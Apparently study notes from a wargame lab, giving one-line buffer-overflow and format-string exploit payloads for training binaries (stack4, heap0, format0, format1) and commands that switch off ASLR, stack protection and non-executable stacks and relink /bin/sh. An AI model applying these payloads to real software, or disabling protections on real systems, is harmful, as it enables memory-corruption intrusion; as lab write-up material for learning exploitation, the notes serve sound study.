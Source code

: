 #### stack4

> python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4

#### heap0

Usefull:
gdb > info proc map (see the address of the heap)
x/120x heap_addr

> ./heap0 $(python -c "print 'A' * 72 + '\x64\x84\x04\x08'")

#### heap1

The goal of the first argument is to overflow i1->name heap buffer into the i2 structure and overwrite the address of i2->name with the address of either the saved_EIP or puts_GOT address. The goal of the second argument is to simply provide the address to which the execution will be redirected.

#### format0

One method of exploiting format strings is pretty similar to buffer overflows. You can write a large string into a buffer with a relatively short format string. E.g.: a format string %128d results in a 128 byte string.

> ./format0 $(python -c "print '%64x'+'\xef\xbe\xad\xde'")

#### format1

To find all the symbols from the binary:
> objdump -t filename
	In this way we can find the address of the target variable.
	
Best way to find the correct padding: 
> ./format1 $(python -c "print 'AAAA'+ '%x.'*150 + '%x' ")
	-> change the 150 value
	-> at the end replace AAAA with the address
	Or:
> ./format1 $(python -c "print 'AAAA' + '%p|'*156") && echo
	
We use %n to modify the target variable.
%n = Writes the number of characters in the address given as argument.
(or number of characters that have been printed so far)


### Useful Info

- **fs** register usually used for canaries
- And they all start with 00 value (end of string)

* * *

## Return to libc

### Turning off countermeasures

- Address Space Randomization:
	> sudo sysctl -w kernel.randomize_va_space=0
- The StackGuard Protection Scheme:
	> gcc -m32 -fno-stack-protector example.c
- Non-Executable Stack:
	> gcc -m32 -z execstack -o test test.c
	> gcc -m32 -z noexecstack -o test test.c
- Configuring /bin/sh (since /bin/dash drops the priviliges)
	> sudo ln -sf /bin/zsh /bin/sh
